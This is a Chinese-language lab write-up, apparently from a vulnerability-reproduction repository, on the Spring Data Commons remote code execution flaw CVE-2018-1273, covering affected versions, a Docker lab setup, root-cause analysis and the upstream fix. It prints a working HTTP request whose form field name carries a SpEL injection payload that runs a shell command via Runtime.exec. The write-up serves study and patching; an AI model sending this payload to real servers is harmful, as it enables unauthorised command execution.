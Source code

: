 # Spring Data Commons 代码执行漏洞(CVE-2018-1273)

## 漏洞信息

 - [Spring Data Commons Remote Code Execution 分析-【CVE-2018-1273    】](https://xz.aliyun.com/t/2269)


![](./img/1.png)

漏洞影响版本：

- 2.0.x users should upgrade to 2.0.6
- 1.13.x users should upgrade to 1.13.11
- Older versions should upgrade to a supported branch


## 漏洞复现:

### 搭建环境

利用docker搭建环境

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_spring_2
 ```

2. 启动环境

 ```
$ docker run -d -p 8080:8080 medicean/vulapps:s_spring_2
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 漏洞复现

访问 `http://你的 IP 地址:端口号/`, 假设启动的端口号为 8080

1. 访问 `http://192.168.10.128:8080/users`，测试服务是否启动成功

2. 发送如下数据包,执行命令为: `/bin/touch /tmp/nxin_test`

```
POST /users?page=&size=5 HTTP/1.1
Host: 192.168.10.128:8080
Proxy-Connection: keep-alive
Content-Length: 138
Cache-Control: max-age=0
Origin: http://192.168.10.128:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://192.168.10.128:8080/users
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("/bin/touch /tmp/nxin_test")]=test&password=test&repeatedPassword=test
```

然后会服务器端查看，文件创建成功

![](./img/2.png)


## 漏洞分析

定位到 org/springframework/data/web/MapDataBinder.java:174 。之所以定位到这里，官方的commit中在这里去除了StandardEvaluationContext，改用SimpleEvaluationContext。

![](c)

可以看到这里的propertyName即我们传入的参数名，其中带有了payaload。

![](./img/4.png)

继续执行至187行，对其进行解析`parseExpression(propertyName)`

![](./img/5.png)

继续执行到217行，解析了spel表达式，成功执行calc.exe。

![](./img/6.png)

## 漏洞修补

以 spring-data-commons 2.0.6 版本为例
https://github.com/spring-projects/spring-data-commons/commit/ae1dd2741ce06d44a0966ecbd6f47beabde2b653

![](./img/7.png)

换用SimpleEvaluationContext，用于实现简单的数据绑定，保持灵活性减少安全隐患


## 参考链接

- [Spring Data Commons Remote Code Execution 分析-【CVE-2018-1273】](https://xz.aliyun.com/t/2269)
- https://docs.spring.io/spring-data/jpa/docs/current/reference/html/#projections